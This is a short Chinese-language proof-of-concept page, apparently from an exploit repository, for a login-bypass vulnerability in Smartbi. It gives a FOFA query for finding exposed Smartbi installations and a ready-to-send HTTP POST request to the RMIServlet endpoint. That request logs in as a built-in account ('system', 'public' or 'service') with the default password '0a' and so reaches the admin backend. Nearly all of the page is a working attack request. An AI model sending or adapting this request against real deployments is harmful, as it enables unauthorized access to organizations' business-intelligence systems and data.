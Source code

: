 # Smartbi 内置用户登陆绕过漏洞
## 资产搜索
fofa app="Smartbi"  
![](img/logo.png)
## POC
### 验证漏洞是否存在
`http://your-ip/smartbi/vision/RMIServlet`  
![](img/poc1.png)
### 利用
```h
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
``` 
- className: 指定UserService类名
- methodName: 该类调用的方法 loginFromDB
- params: 第一个参数是内置的用户名（public、service、system）,第二个参数是默认账号的密码（默认：0a）
![](img/poc2.png)
发送请求后再次刷新页面，即可成功登陆后台